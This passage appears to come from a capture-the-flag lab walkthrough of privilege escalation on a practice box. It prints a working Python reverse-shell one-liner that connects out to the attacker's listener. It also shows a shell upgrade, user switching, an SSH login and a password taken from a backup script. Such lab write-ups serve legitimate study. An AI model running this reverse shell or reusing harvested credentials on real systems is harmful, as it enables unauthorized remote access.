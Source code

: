 It is, so let's use the following reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.82.167",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

and we get a reverse shell on our nc listener!

We can invoke a shell through python:

    python -c 'import pty;pty.spawn("/bin/bash")'

and then change user to basterd using `su basterd`. Alternatively you can ssh into basterd using:

    ssh basterd@10.10.28.146 -p 55077

Inside basterd's home directory, we see a backup.sh file, that contains the user `stoner` username and password:

    USER=stoner
    #superduperp@$$no1knows

and there's mention of a log file:

I originally found out that SSH is running on a different port than 22 using ss, and then performed the nmap with -Pn before, but for the sake of readability, I put the nmap at the beginning:
![](images/2020-08-25-14-22-48.png)

Logging into ssh as stoner:

![](images/2020-08-25-14-23-17.png)
